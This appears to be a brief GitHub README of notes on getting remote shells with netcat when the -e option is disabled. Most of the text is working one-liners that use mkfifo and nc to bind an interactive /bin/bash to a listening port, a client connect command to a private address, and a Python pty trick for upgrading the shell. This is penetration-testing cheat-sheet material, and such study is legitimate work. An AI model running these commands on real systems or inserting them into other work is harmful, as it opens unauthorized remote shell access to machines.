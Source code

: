 # netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat have the -e option disabled for security purposes. Here are other ways to execute remotely and options for upgrading the shell

# Method 1
on Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Method 2
On Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:
#Once are connected to the remote host issue the following
python -c 'import pty; pty.spawn("/bin/bash")'
